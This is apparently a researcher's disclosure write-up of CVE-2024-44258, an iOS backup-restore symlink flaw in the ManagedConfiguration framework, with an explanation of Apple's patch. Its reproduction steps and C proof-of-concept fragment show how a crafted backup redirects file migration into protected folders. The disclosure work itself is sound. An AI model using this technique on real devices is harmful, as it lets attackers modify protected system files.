

# CVE-2024-44258: Symlink Vulnerability in ManagedConfiguration Framework

## Summary

**CVE-2024-44258** highlights a symlink vulnerability within the **ManagedConfiguration framework** and the **profiled daemon** in Apple devices. When restoring a crafted backup, the migration process fails to validate whether the destination folder is a symbolic link (symlink), leading to unauthorized file migration into restricted areas.

---

## CVE ID  

**CVE-2024-44258** has been assigned to this issue. CVEs are unique identifiers for publicly disclosed security vulnerabilities.

- **Impact:** Restoring a maliciously crafted backup file may lead to modification of protected system files.  
- **Description:** This issue has been addressed with improved handling of symlinks in the affected components.  

For more information, please refer to Apple’s official support pages:  
- [support.apple.com/en-us/121569](https://support.apple.com/en-us/121569)  
- [support.apple.com/en-us/121566](https://support.apple.com/en-us/121566)  
- [support.apple.com/en-us/121563](https://support.apple.com/en-us/121563)  

---

## Details

### Affected Components:
- **ManagedConfiguration framework**  
- **profiled daemon**

### Impact:
The vulnerability allows attackers to leverage symbolic links during a backup restore to bypass folder restrictions, writing files into sandboxed or protected areas. This flaw can potentially allow unauthorized data access, privilege escalation, or exploitation of other services dependent on the modified configuration.

---

## Steps to Reproduce

1. **Create a crafted backup**  
   - Create a symlink from:  
     `/private/var/containers/Shared/SystemGroup/systemgroup.com.apple.configurationprofiles/Library/`  
     to a sandboxed folder using domain:  
     ```shell
     SysSharedContainerDomain-systemgroup.com.apple.configurationprofiles
     ```

2. **Add desired files**  
   - Insert files and folders into:  
     `/private/var/mobile/Library/ConfigurationProfiles`  
     using the **HomeDomain**.

3. **Restore the crafted backup**  
   - Restore the backup to any iPhone, iPod, or iPad device.

4. **Reboot the device**  
   - After reboot, inspect the contents of the restricted area. You will find the files/folder migrated to a previously protected location.

---

## Expected vs. Actual Results

- **Expected:**  
  `/private/var/mobile/Library/ConfigurationProfiles` should migrate to:  
  `/private/var/containers/Shared/SystemGroup/systemgroup.com.apple.configurationprofiles/Library/`

- **Actual:**  
  Due to the crafted symlink, the files are migrated into a restricted folder that can contain sensitive or protected data.

---

## Exploit Status

This vulnerability has been observed **in the wild for several months**, indicating its active exploitation.

---

# Patch Explanation

In **iOS 18.1 beta5**, Apple introduced a patch to address the symlink vulnerability within the **ManagedConfiguration framework**. The function `_MCDestinationPathIsSafeFromSymlinkAttacks` was added to perform a safety check on the destination path, preventing unauthorized file migration into restricted areas. This check was specifically added to the function `MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:`.

---

## Affected Function: `-[MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:]`

The vulnerability fix was implemented by modifying the function **`-[MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:]`**, which is responsible for handling file migrations within the **ManagedConfiguration framework**. Here’s how the patch works:

- **Addition of Symlink Check**  
  Apple added a call to `_MCDestinationPathIsSafeFromSymlinkAttacks` at the beginning of `MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:`. This function now verifies if the destination path is free of symbolic links, adding a layer of protection before performing any migration operation.

- **Condition Check**  
  If `_MCDestinationPathIsSafeFromSymlinkAttacks` detects a symlink in the destination path, it prevents the migration from proceeding. The function logs a **fault message** using `OS_LOG_TYPE_FAULT` and exits early, stopping the file operation.
  
---

## Code Comparison

Using **Diaphora** in **IDA**, a diff comparison between **iOS 18.1 beta4** and **iOS 18.1 beta5** reveals the changes in the `-[MCMigrator_copyAlmostAtomicallyItemAtPath:toPath:error:]` function. The image below shows the modified code with the added symlink check.



---

## PoC (Proof of Concept)

Below is a sample code snippet demonstrating how to craft a backup that exploits the vulnerability. This code outlines how to add symlink and files to the backup, simulating the process without providing the actual crafted backup file.

```c
unsigned char* plist_data = NULL;
        file_read("/path/to/your/test-outofsandbox.plist", &plist_data, &plist_size); // THIS NEED TO BE CHANGED TO THE FILE PATH

    backup_add_directory(backup, "HomeDomain", "Library/ConfigurationProfiles", 0755, 501, 501);
    backup_add_file_with_data(backup, "HomeDomain", "Library/ConfigurationProfiles/test.plist", 0755, 501, 501, 4, plist_data, plist_size); // WE ADD OUR FILES
         
    backup_add_directory(backup, "SysSharedContainerDomain-systemgroup.com.apple.configurationprofiles", NULL, 0755, 501, 501);
    backup_add_symlink(backup, "SysSharedContainerDomain-systemgroup.com.apple.configurationprofiles", "Library", "/private/var/mobile/Library", 501, 501); // CHANGE THE PATH TO THE SANDBOXED FOLDER YOU WANT TO WRITE IN YOUR FILES
    
    backup_write_mbdb(backup); // SAVE THE BACKUP
    backup_free(backup);
```

---

## Disclosure Timeline

- **Initial Report to Apple:** [06/07/2024]
- **CVE Assigned:** CVE-2024-44258  
- **Public Disclosure:** [02/11/2024]

---

## Acknowledgments

Special thanks to the Apple security team for their swift response and collaboration.

Vulnerability discovered by Hichem Maloufi & Christian Mina

---

## License

This repository is licensed under the MIT License. See `LICENSE` for more information.

